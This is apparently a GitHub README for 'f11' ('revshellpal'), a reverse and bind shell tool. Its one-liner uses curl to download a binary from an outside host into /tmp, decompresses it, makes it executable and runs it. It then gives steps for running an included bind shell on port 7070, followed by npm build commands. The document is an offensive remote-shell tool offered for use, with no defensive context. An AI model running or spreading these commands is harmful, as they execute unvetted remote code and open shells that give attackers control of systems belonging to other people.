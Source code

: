 # f11
*revshellpal*

### Oneliner

```bash
curl -sL https://f11snipe.cloud/f11.xz -o /tmp/f11.xz && xz -d /tmp/f11.xz && chmod +x /tmp/f11 && /tmp/f11
```


### Run included standalone bind shell

```bash
# Extract archive
xz -d f11-bind.xz

# Allow execute
chmod +x f11-bind

# Run rev bind shell (port 7070)
./f11-bind
```

### Build from source

```bash
# Run all build steps
npm install
npm run ci
```


#### Individual build steps
```bash
# Install npm packages
npm install

# Build TypeScript
npm build

# Compile
npm run compile

# Compress
npm run compress
```
